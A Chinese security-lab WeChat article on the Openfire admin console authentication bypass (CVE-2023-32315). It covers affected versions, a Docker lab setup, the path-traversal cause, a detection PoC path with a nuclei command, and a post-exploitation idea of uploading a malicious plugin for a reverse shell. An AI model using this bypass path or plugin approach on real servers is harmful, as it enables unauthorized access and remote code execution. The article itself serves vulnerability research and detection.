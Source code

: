 #  Openfire 控制台权限绕过漏洞 附检测POC+后利用

原创 unknown  [ 极致攻防实验室 ](javascript:void\(0\);)

**极致攻防实验室** ![]()

微信号 jz_sec

功能介绍 极致攻防实验室专注于最前沿，最基础，最实际的红蓝对抗黑客技术。

____

___发表于_

收录于合集

#poc 8 个

#漏洞 8 个

#nuclei 8 个

**免责声明：  
**

本文章或工具仅供安全研究使用，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，极致攻防实验室及文章作者不为此承担任何责任。

 **简介：**

Openfire是一个开源的、实时通讯服务器，它基于XMPP（可扩展通讯和预测协议）协议，采用Java编程语言开发。Openfire通常用来构建企业级的实时通讯应用，支持文本、语音、视频等多种形式的通讯。
**利用条件：** 3.10.0 <= Openfire < 4.6.8 **漏洞环境部署：**

  *   * 

    
    
     docker pull sameersbn/openfire:3.10.3docker run --name openfire -publish 9090:9090 sameersbn/openfire:3.10.3

 **漏洞原理：**
Openfire在进行路径鉴权时没有很好的处理通配符，结合其内置中间件Jetty对unicode解码特性，配合unicode的编码后的..与%2e，使得攻击者可以绕过身份验证访问后台功能页面,且其后台存在插件安装功能，配合安装恶意插件可远程代码执行。
**漏洞检测：**  
poc: /setup/setup-/../../log.jsp,nuclei检测：

  * 

    
    
    ./nuclei -u http://www.xxx.com/ -t ./ultimaste-nuclei-templates/openfire/CVE-2023-32315.yaml

‍

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230617194346.png)nuclei-
templates:https://github.com/UltimateSec/ultimaste-nuclei-
templates/blob/main/openfire/CVE-2023-32315.yaml **后利用思路：** 利用plugin-
admin.jsp路径上传恶意插件反弹shell即可，这里提供一个思路，直接魔改一下msf
cve-2008-6508的exp直接使用：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230617194347.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230617194348.png)  
 **修复方式：** 收敛系统访问网络 **参考：** https://learningsomecti.medium.com/path-traversal-
to-rce-openfire-
cve-2023-32315-6a8bf0285fcchttps://github.com/porthunter/gosploit/blob/3b1370488af9de826f0be4d7df92029c30434fd6/modules/exploits/multi/http/openfire_auth_bypass.rb#L183

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

